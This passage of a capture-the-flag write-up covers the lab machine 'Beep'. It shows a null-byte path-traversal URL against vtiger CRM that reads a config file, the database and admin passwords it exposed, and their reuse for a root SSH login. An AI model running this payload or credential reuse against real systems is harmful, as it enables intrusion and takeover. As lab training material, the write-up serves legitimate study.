 ```none
cd /usr/share/exploitdb
grep -rin vtigercrm .
grep -rin  'vtigercrm' . | grep "00"
```

The idea of this method was to look for other LFI exploits and see what files they dumped. And the idea of the null byte `grep` search was to find other LFI paths in different software known to be on the target. The final result was an LFI to a useful file:

```none
view-source:https://beep.htb/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/amportal.conf%00
```

This file was gold - and contained some useful credentials:

```none
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

These credentials worked for:

- Elastix login: `https://beep.htb/index.php`
- vtiger login: `https://beep.htb/vtigercrm/index.php`

## Flag: Root

... and they also worked for the `root` account via SSH. 

```none
└─$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]# wc -c /root/root.txt
33 /root/root.txt
```
